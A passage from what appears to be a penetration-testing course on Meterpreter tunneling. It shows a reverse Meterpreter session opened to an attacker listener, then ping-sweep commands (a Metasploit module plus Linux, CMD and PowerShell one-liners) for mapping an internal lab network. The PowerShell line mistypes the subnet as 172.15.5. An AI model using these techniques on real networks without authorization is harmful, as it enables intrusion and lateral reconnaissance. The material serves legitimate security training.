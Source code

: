 We need to make sure the Meterpreter session is successfully established upon executing the payload.

**Meterpreter Session Establishment**

Meterpreter Tunneling & Port Forwarding

```shell-session
[*] Sending stage (3020772 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:8080 -> 10.129.202.64:39826 ) at 2022-03-03 12:27:43 -0500
meterpreter > pwd

/home/ubuntu
```

We know that the Windows target is on the 172.16.5.0/23 network. So assuming that the firewall on the Windows target is allowing ICMP requests, we would want to perform a ping sweep on this network. We can do that using Meterpreter with the `ping_sweep` module, which will generate the ICMP traffic from the Ubuntu host to the network `172.16.5.0/23`.

**Ping Sweep**

Meterpreter Tunneling & Port Forwarding

```shell-session
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

[*] Performing ping sweep for IP range 172.16.5.0/23
```

We could also perform a ping sweep using a `for loop` directly on a target pivot host that will ping any device in the network range we specify. Here are two helpful ping sweep for loop one-liners we could use for Linux-based and Windows-based pivot hosts.

**Ping Sweep For Loop on Linux Pivot Hosts**

Meterpreter Tunneling & Port Forwarding

```shell-session
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

**Ping Sweep For Loop Using CMD**

Meterpreter Tunneling & Port Forwarding

```cmd-session
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

**Ping Sweep Using PowerShell**

Meterpreter Tunneling & Port Forwarding

```powershell-session
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

Note: It is possible that a ping sweep may not result in successful replies on the first attempt, especially when communicating across networks. This can be caused by the time it takes for a host to build it's arp cache. In these cases, it is good to attempt our ping sweep at least twice to ensure the arp cache gets built.
